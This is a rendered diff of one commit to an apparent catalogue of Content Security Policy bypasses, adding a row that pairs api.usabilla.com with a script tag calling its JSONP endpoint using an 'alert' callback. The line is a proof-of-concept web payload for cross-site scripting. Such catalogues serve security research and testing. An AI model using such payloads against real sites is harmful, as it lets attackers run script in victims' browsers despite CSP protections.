

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out; long unchanged cells end in …; the diff names each change by its address in the sheet, - before the commit and + after, or states it on an @@ line.

Commit message:
pushed api.usabilla.com

```diff
--- a/data.tsv
+++ b/data.tsv
+row 215: api.usabilla.com | <script src="https://api.usabilla.com/v2/feedback/c263014c1857.config?jsonp=alert"></script>
```
